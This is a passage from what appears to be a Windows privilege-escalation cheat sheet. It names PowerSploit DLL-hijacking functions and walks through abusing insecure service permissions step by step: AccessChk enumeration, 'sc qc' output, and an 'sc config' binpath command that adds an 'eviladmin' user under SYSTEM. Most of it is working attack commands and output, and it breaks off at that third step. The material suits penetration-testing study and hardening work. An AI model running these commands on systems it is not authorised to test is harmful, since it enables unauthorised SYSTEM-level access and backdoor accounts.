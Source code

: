 Alternatively, we can use powersploit to complete the task

```text
Find-ProcessDLLHijack //identify all the processes on the system that are trying to load DLL which are missing
Find-PathDLLHijack //identification of path that user can modify the content
Write-HijackDll //generate the hijackable DLL
```

## binpath \(Insecure Service Permissions\)

1. Upload AccessChk \(Sysinternals\) to the computer

   ```text
   accesschk.exe -uwcqv "testuser" *
   ```

   ```text
   Accesschk v6.02 - Reports effective permissions for securable objects
   Copyright (C) 2006-2016 Mark Russinovich
   Sysinternals - www.sysinternals.com
   RW Vulnerable Service
   SERVICE_ALL_ACCESS
   ```

   All services that “testuser” can modify will be listed. `SERVICE_ALL_ACCESS` means we have full control over modifying the properties of Vulnerable Service.

2. View the properties of the services

   ```text
   sc qc "[service name]"
   ```

   ```text
   C:\Users\testuser\AppData\Local\Temp>sc qc "Vulnerable Service"
   sc qc "Vulnerable Service"
   [SC] QueryServiceConfig SUCCESS
   SERVICE_NAME: Vulnerable Service
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
        LOAD_ORDER_GROUP   : UIGroup
        TAG                : 0
        DISPLAY_NAME       : Vulnerable Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
   ```

   `BINARY_PATH_NAME` points to Executable.exe which is executable file for this service. If we change this value with any command means this command will run as SYSTEM at the next start of the service.

3. Config the service to run a command we want \(e.g. create a user\)

   ```text
   sc config "Vulnerable Service" binpath= "net user eviladmin P4ssw0rd@ /add"
   ```
